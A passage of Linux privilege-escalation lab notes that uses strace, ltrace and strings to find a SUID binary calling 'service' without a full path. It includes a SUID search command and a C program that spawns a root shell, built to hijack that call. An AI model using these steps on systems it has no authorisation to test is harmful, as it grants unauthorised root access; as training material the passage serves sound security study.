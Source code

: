 ltrace examplebin

### STRACE

When a program is executed, it will try to load the shared objects it requires.

By using a program called **strace**, we can track these system calls and determine whether any shared objects were not found. If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

strace /usr/local/bin/suid-so
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

strace -v -f -e execve <command> 2>&1 | grep exec

### EXPLOIT VULNERABLE PROGRAM

Find SUID/SGID files on the target:

$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
2> /dev/null
...
-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env
...

The suid-env file should execute with root user permissions.

Run strings on the SUID file:

$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
...
service apache2 start

The file could be trying to run the service program without a full path.

We can verify this with strace:

$ strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],
...

Optionally, we can also verify with ltrace:

$ ltrace /usr/local/bin/suid-env 2>&1 | grep service
system("service apache2 start"

This reveals that the system function is being used to execute the service program.

Create a file service.c with the following contents:

int main() {
setuid(0);
system("/bin/bash -p");
}

Compile service.c into a file called service:

$ gcc -o service service.c
